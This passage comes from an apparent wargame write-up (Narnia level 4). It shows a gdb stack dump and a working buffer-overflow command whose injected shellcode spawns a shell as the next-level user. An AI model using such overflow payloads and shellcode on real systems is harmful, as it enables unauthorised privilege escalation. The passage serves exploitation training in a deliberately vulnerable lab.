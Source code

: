 narnia4@melinda:/narnia$ gdb narnia4
(gdb) run $(python -c 'print "A"*244+"R"*28+"A"*4')
Starting program: /games/narnia/narnia4 $(python -c 'print "A"*244+"R"*28+"A"*4')
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/300x $esp
0xffffd5d0:	0x00000000	0xffffd664	0xffffd670	0xf7feacea
0xffffd5e0:	0x00000002	0xffffd664	0xffffd604	0x080497cc
0xffffd5f0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
0xffffd600:	0x00000000	0xd35f81d1	0xeb6065c1	0x00000000
0xffffd610:	0x00000000	0x00000000	0x00000002	0x080483b0
0xffffd620:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd630:	0x00000002	0x080483b0	0x00000000	0x080483d1
0xffffd640:	0x080484ad	0x00000002	0xffffd664	0x08048550
0xffffd650:	0x080485c0	0xf7feb180	0xffffd65c	0x0000001c
0xffffd660:	0x00000002	0xffffd79b	0xffffd7b1	0x00000000
0xffffd670:	0xffffd8c6	0xffffd8db	0xffffd8eb	0xffffd8f6
0xffffd680:	0xffffd916	0xffffd92a	0xffffd933	0xffffd940
0xffffd690:	0xffffde61	0xffffde6c	0xffffde78	0xffffded6
0xffffd6a0:	0xffffdeed	0xffffdefc	0xffffdf08	0xffffdf19
0xffffd6b0:	0xffffdf22	0xffffdf35	0xffffdf3d	0xffffdf4d
0xffffd6c0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
0xffffd6d0:	0x00000020	0xf7fdbb20	0x00000021	0xf7fdb000
0xffffd6e0:	0x00000010	0x1f898b75	0x00000006	0x00001000
0xffffd6f0:	0x00000011	0x00000064	0x00000003	0x08048034
0xffffd700:	0x00000004	0x00000020	0x00000005	0x00000008
0xffffd710:	0x00000007	0xf7fdc000	0x00000008	0x00000000
0xffffd720:	0x00000009	0x080483b0	0x0000000b	0x000036b4
0xffffd730:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
0xffffd740:	0x0000000e	0x000036b4	0x00000017	0x00000000
0xffffd750:	0x00000019	0xffffd77b	0x0000001f	0xffffdfe2
0xffffd760:	0x0000000f	0xffffd78b	0x00000000	0x00000000
0xffffd770:	0x00000000	0x00000000	0x5d000000	0x1086f177
0xffffd780:	0xbf17167a	0x902c70f3	0x69509589	0x00363836
0xffffd790:	0x00000000	0x00000000	0x2f000000	0x656d6167
0xffffd7a0:	0x616e2f73	0x61696e72	0x72616e2f	0x3461696e
0xffffd7b0:	0x41414100	0x41414141	0x41414141	0x41414141
0xffffd7c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd7d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd7e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd7f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd800:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd810:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd820:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8a0:	0x41414141	0x52525241	0x52525252	0x52525252
0xffffd8b0:	0x52525252	0x52525252	0x52525252	0x52525252
0xffffd8c0:	0x41414152	0x00000041	0x00000000	0x00000000
>```
>
> Looks like we need to update our return address to ```0xffffd8a4```.
>
>```
narnia4@melinda:/narnia$ ./narnia4 $(python -c 'print "A"*244+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xa4\xd8\xff\xff"')
$ whoami
narnia5